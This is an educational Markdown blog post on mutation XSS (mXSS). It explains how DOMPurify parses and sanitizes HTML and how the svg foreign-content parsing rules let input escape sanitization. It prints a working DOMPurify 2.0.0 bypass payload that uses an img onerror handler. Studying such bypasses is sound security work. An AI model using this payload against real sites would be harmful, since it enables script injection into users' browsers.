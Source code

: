 ```yaml
---
title: "mXSS - The Parsing Magics"
summary: "Know about the parsing magics and mXSS"
date: "June 11 2025"
draft: false
tags:
  - Web
---
```



## What is mXSS?

- Due to parsing differences between sanitizers (e.g., DOMPurify) and browsers, input can be mutated (or transformed) when appended to the DOM tree using `innerHTML`.
    
- **In simple terms, abusing these parsing differences is called mXSS (mutation XSS).**
    

---

## How Does an HTML Sanitizer Work?

1. **Parsing:** The HTML content is parsed into a DOM tree, either on the server or in the browser.
    
2. **Sanitization:** The sanitizer iterates through the DOM tree and removes any dangerous or harmful content.
    
3. **Serialization:** After sanitizing, the DOM tree is serialized back into an HTML string.
    
4. **Re-parsing:** The serialized HTML is reassigned to `innerHTML`, triggering another parsing process.
    
5. **Appending to Document:** Finally, the sanitized DOM tree is appended to the document.
    

## DOMPurify – Behind The Scenes

> A client-side javaScript library used to sanitize HTML inputs and prevent XSS attacks.

![](/Pasted_image_20250608151138.png)

---

### Execution Flow

![DomPurify Execution Flow](/Pasted_image_20250608144723.png)

---

### DOMPurify Internals

1. **[`_initDocument`](https://github.com/cure53/DOMPurify/blob/69c8c12940dbf98aef5f44eea77151e1aef532dc/src/purify.js#L855C9-L855C22)**  
    Uses [DOMParser API](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser) to parse unsafe input into a DOM structure.
    
2. **[`_createNodeIterator`](https://github.com/cure53/DOMPurify/blob/69c8c12940dbf98aef5f44eea77151e1aef532dc/src/purify.js#L930)**  
    Uses [`NodeIterator`](https://developer.mozilla.org/en-US/docs/Web/API/NodeIterator) to traverse each DOM node in order.
    
3. **[`_sanitizeElements`](https://github.com/cure53/DOMPurify/blob/69c8c12940dbf98aef5f44eea77151e1aef532dc/src/purify.js#L1003)**
    
    - Checks for DOM clobbering and known attack vectors like mXSS.
        
    - Removes or escapes disallowed tags (e.g., `<script>`, `<iframe>`, etc.).
        
4. **[`_sanitizeShadowDOM`](https://github.com/cure53/DOMPurify/blob/69c8c12940dbf98aef5f44eea77151e1aef532dc/src/purify.js#L1384)**
    
    - DOMPurify normally skips `<template>` and [Shadow DOM](https://developer.mozilla.org/en-US/docs/Web/API/DocumentFragment).
        
    - This function recursively dives into fragments and sanitizes those too.
        
5. **`_sanitizeAttributes`**
    
    - Goes through each attribute (`onclick`, `href`, `src`, etc.) and strips or modifies malicious ones.
        
6. **`body.innerHTML`**
    
    - After sanitization, the DOM is serialized back into clean HTML and reinserted into the page.
        



---

## Get Our Hand Dirty

Let’s understand what is mXSS with a small example:

```
element.innerHTML = '<u>some <i> HTML'
```

After inserting using `innerHTML`, when we retrieve the HTML, it looks different than the input.

```html
<u>
    Some 
    <i>HTML</i>
</u>
```

This happens because **HTML is designed to be fault-tolerant**.

---

### The svg Magic

```
element.innerHTML = '<svg><p>is this in svg?</svg>'
```

This gets parsed as:

```
<svg></svg>
<p>is this in svg?</p>
```

Here, `<p>` is moved out of `<svg>` since it’s not a valid child.

### More Examples

- `<svg>` tag can't have `<p>` as a child.
    
- `<form>` tag cannot contain a nested `<form>`.
    
- `<style>` treats everything inside as text, even if it's a tag.
    

[More such rules here].([https://sonarsource.github.io/mxss-cheatsheet/](https://sonarsource.github.io/mxss-cheatsheet/))

---

### The Escape

```
element.innerHTML = '<svg></p>is this is in svg?</svg>'
```

This gets parsed into:

```
<svg>
  <p></p>
  is this is in svg?
</svg>
```

Now **mXSS is possible!** DOMPurify gets bypassed because it assumes `<svg>` can’t contain malicious tags. But the browser parses it differently.

`<svg></p>` becomes a base for mXSS payloads inside `<svg>`.

Example:

```
<svg></p><style><a id="</style><img src=1 onerror=alert(1)"> 
```

DOM becomes:

```
<svg>
  <p></p>
  <style>
    <a id="</style><img src="1" onerror="alert(1)">
    ">
  </style>
</svg>
```

This XSS triggers even though it’s inside a `<style>` block. That’s because `**<svg>**`** changes the parsing rules to XML** (foreign content), which behaves differently.

---

### Abuse in DOMPurify v2.0.0

Payload:

```
<svg></p><style><a id="</style><img src=1 onerror=alert(1)"> 
```

- DOMPurify doesn’t sanitize the `onerror` attribute because it thinks everything inside `<style>` is just text.
    

![mXSS](/Pasted_image_20250610230300.png)

![mXSS](/Pasted_image_20250610230307.png)

- But when this is inserted into the DOM using `innerHTML`, the browser parses it differently:
    

```
<svg></svg>
<p>
  <style><a id="</style>
  <img src="1" onerror="alert(1)">
  ">
</p>
```

---

### Why Does `<svg>` Close Early?

	Even though we expected it to close at the end, the presence of `<style>` causes the parser to exit "foreign content mode."

- According to [§ 13.2.6.5: Parsing foreign content](https://html.spec.whatwg.org/multipage/parsing.html#parsing-main-inforeign), when the parser is inside a foreign element (like `<svg>`) and sees a tag that isn't allowed (like `<style>`), it **exits the foreign mode**.
    
- It pops `<svg>` off the stack and **reprocesses** the next tag (`<style>`) in **HTML mode**, continuing normally.
    

---

### Bonus:

[ChatGPT is my friend 😄 – See my chat with it](https://chatgpt.com/share/684942c3-3cd0-8011-8277-3eb28f7970fe)

---

### References:

- [https://github.com/msrkp/MXSS/blob/main/README.md](https://github.com/msrkp/MXSS/blob/main/README.md)
    
- [https://research.securitum.com/dompurify-bypass-using-mxss/](https://research.securitum.com/dompurify-bypass-using-mxss/)
    
- [https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)
    
- [https://sonarsource.github.io/mxss-cheatsheet/](https://sonarsource.github.io/mxss-cheatsheet/)
    

---
